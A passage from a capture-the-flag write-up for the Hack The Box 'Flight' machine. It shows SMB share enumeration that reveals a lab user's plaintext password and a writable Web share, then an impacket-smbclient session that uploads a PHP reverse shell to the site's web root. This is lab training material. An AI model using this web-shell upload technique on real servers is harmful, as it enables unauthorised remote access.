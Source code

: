 ```shell
SMB         10.129.228.120  445    G0               [*] Windows 10 / Server 2019 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         10.129.228.120  445    G0               [+] flight.htb\C.Bum:Tikkycoll_431012284 
SMB         10.129.228.120  445    G0               [*] Enumerated shares
SMB         10.129.228.120  445    G0               Share           Permissions     Remark
SMB         10.129.228.120  445    G0               -----           -----------     ------
SMB         10.129.228.120  445    G0               ADMIN$                          Remote Admin
SMB         10.129.228.120  445    G0               C$                              Default share
SMB         10.129.228.120  445    G0               IPC$            READ            Remote IPC
SMB         10.129.228.120  445    G0               NETLOGON        READ            Logon server share 
SMB         10.129.228.120  445    G0               Shared          READ,WRITE      
SMB         10.129.228.120  445    G0               SYSVOL          READ            Logon server share 
SMB         10.129.228.120  445    G0               Users           READ            
SMB         10.129.228.120  445    G0               Web             READ,WRITE
```

It seems like we have write permission on the Web share. My first idea when seeing this was to upload a .php shell there and see if we can trigger it. Lets try that!

I will use the PHP Ivan Sincek reverse shell and name it shell.php. You can get it from revshells.com.

Connect using impacket-smbclient and upload it:

```shell
impacket-smbclient flight.htb/C.Bum:'Tikkycoll_431012284'@10.129.228.120
```

```shell
Type help for list of commands
# use Web
# ls
drw-rw-rw-          0  Tue Nov 19 11:47:00 2024 .
drw-rw-rw-          0  Tue Nov 19 11:47:00 2024 ..
drw-rw-rw-          0  Tue Nov 19 11:47:00 2024 flight.htb
drw-rw-rw-          0  Tue Nov 19 11:47:00 2024 school.flight.htb
# cd flight.htb
# ls
drw-rw-rw-          0  Tue Nov 19 11:47:00 2024 .
drw-rw-rw-          0  Tue Nov 19 11:47:00 2024 ..
drw-rw-rw-          0  Tue Nov 19 11:47:00 2024 css
drw-rw-rw-          0  Tue Nov 19 11:47:00 2024 images
-rw-rw-rw-       7069  Thu Sep 22 16:17:00 2022 index.html
drw-rw-rw-          0  Tue Nov 19 11:47:00 2024 js
# put shell.php
# ls
drw-rw-rw-          0  Tue Nov 19 11:49:25 2024 .
drw-rw-rw-          0  Tue Nov 19 11:49:25 2024 ..
drw-rw-rw-          0  Tue Nov 19 11:47:00 2024 css
drw-rw-rw-          0  Tue Nov 19 11:47:00 2024 images
-rw-rw-rw-       7069  Thu Sep 22 16:17:00 2022 index.html
drw-rw-rw-          0  Tue Nov 19 11:47:00 2024 js
-rw-rw-rw-       9291  Tue Nov 19 11:49:25 2024 shell.php
```
